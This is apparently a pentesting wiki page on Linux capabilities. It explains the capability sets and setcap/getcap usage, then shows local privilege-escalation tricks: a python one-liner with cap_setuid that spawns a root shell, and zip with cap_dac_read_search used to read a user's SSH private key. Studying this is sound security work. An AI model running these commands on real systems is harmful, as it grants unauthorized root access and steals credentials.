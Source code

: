 # 🛠️ Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

Basic processes : Have no capabilities (file access is controlled by traditional file privileges).

(Binary) files : Can have capabilities (filesystem-dependent).

Capabilities are in separated in 5 sets :

| Set | Description |
| --------------- | ------------------------------------------------------------------------------------------- |
| Effective set | the set that will be used when doing permission check. |
| Permitted set | can be moved to effective set by calling `capset()` |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set | list of all the capabilities a process can ever receive (in its inheritable/permitted sets) |
| Ambiant set | passed to non-suid files without defined capabilities |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
 * drop any capability from any set
 * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages (see `man capabilities`).

Non-exhaustive capability list :

| Capability | Description |
| ----------------------- | -------------------------------------------------- |
| `CAP_AUDIT_CONTROL` | Toggle kernel auditing |
| `CAP_AUDIT_WRITE` | Write to kernel audit log |
| `CAP_CHOWN` | Change file owners |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID |
| `CAP_NET_RAW` | Open raw and packet sockets |
| `CAP_NET_BIND_SERVICE` | Bind a socket to Internet domain privileged ports |

## Practice

Setting a file's capabilities :

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

Exploiting capabilities :

* Empty capabilities

 If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

> [!TIP]
> To create a file with empty (=all) capabilities just`sudo setcap \=ep /path/to/file` 

Other classic examples :

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

End notes :

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

[https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work)

[https://blog.ploetzli.ch/2014/understanding-linux-capabilities/](https://blog.ploetzli.ch/2014/understanding-linux-capabilities/)

[https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/](https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/)
